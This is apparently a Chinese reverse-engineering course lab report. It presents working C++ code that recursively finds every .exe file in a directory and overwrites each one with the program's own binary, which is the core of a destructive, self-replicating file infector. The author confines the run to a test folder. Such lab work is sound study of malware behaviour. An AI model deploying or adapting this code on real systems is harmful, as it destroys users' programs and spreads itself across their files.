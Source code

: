 # 逆向工程实验三
## 作业二
### 实验目的
- 阅读 [微软官方文档](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea)
- 学习 CreateFile、WriteFile、ReadFile、CloseHandle、FindFirstFile，FindNextFile等几个API函数。

### 实验要求
**编程实现以下功能：**
1. 遍历磁盘，找出磁盘中的全部exe文件；
   - 由于本实验有危险，故遍历文件时只遍历指定目录`C:\Users\12149\Source\Repos\Panda\Debug\target`，避免误伤系统文件和其他有用的文件。
  
2. 替换所有exe文件为自身。

### 实验步骤
[完整脚本](replace.cpp)

#### 运行前
- *C:\Users\12149\Source\Repos\Panda\Debug\target*
  - 该目录下有`7z1900.exe`,`allplan_start.exe`,`BCClipboard.exe`等共计三个exe文件及名为`1`的文件夹。
![](./img/target.png)
- *C:\Users\12149\Source\Repos\Panda\Debug\target\1*
  - 该目录下有`BCompare.exe`等共计一个exe文件及名为`2`的文件夹。
![](./img/target-1.png)
- *C:\Users\12149\Source\Repos\Panda\Debug\target\1\2*
  - 该目录下有`cli.exe`等共计一个exe文件
![](img/target-1-2.png)

#### 关键代码
- 遍历磁盘，找出磁盘中的全部exe文件
```c
class ProcessFile
{
private:
    vector<string>  result;
public:
    vector<string>  getResult()
    {
        auto   t = result;
        result.clear();
        return t;
    }

    void findall(char* path)
    {
        WIN32_FIND_DATA findData;//保存搜索得到的文件信息
        char buffer[MAX_PATH] = { 0, };
        sprintf(buffer, "%s\\*.*", path);
        HANDLE aim = FindFirstFile(buffer, &findData);//获取指定目录的第一个文件
        char* kind = "exe"; //规定搜索的文件类型为exe
        string target;

        if (aim != INVALID_HANDLE_VALUE) {
            //搜索下一个文件
            while (FindNextFile(aim, &findData))
            {
                if (strcmp(findData.cFileName, ".") == 0 || strcmp(findData.cFileName, "..") == 0)
                {
                    continue;
                }

                if (findData.dwFileAttributes & FILE_ATTRIBUTE_DIRECTORY)
                {
                    ZeroMemory(buffer, MAX_PATH);
                    sprintf(buffer, "%s\\%s", path, findData.cFileName);
                    findall(buffer);
                }

                else
                {
                    int l = strlen(buffer);
                    buffer[l - 1] = '\0';
                    //printf("%s%s\n", buffer, findData.cFileName);
                    buffer[l - 1] = '*';
                    buffer[l] = '\0';
                    //得到文件的绝对路径
                    target.assign(path);
                    target += '\\';
                    target.append(findData.cFileName);
                    int len = strlen(kind);
                    //判断是否为exe文件，若是，则将绝对路径返回给result
                    if (target.substr(target.size() - len) == kind)
                    {
                        result.push_back(target);
                    }

                }
            }
        }
        //释放FindFirst分配的内存
        FindClose(aim);

        if (aim == INVALID_HANDLE_VALUE)
        {
          cout<< "ERROR!" << endl;
          system("pause");
          exit(-1);
        }
    }
};
```
- 替换所有exe文件为自身
```c
char self[MAX_PATH] = { 0 };
GetModuleFileName(NULL, self, MAX_PATH);//获取可执行文件self的绝对路径

auto result = p.getResult();

for (int i = 0; i < result.size(); i++)
  {
    //将self复制到每一个搜索到的exe文件并覆盖
    CopyFile(self, result[i].c_str(), FALSE);
  }
```

#### 运行后
**所有exe文件都被替换为自身**
- *C:\Users\12149\Source\Repos\Panda\Debug\target*
![](./img/aft-target.png)
- *C:\Users\12149\Source\Repos\Panda\Debug\target\1*
![](./img/aft-target-1.png)
- *C:\Users\12149\Source\Repos\Panda\Debug\target\1\2*
![](img/aft-target-1-2.png)

### 参考资料
- [FindNextFileA function](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-findnextfilea)
- [FindFirstFileA function](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-findfirstfilea)
- [CopyFile function](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-copyfile)
- [GetModuleFileNameA function](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getmodulefilenamea)
- [使用FindFirstFile和FindNextFile函数实现文件搜索遍历](https://www.write-bug.com/article/1864.html)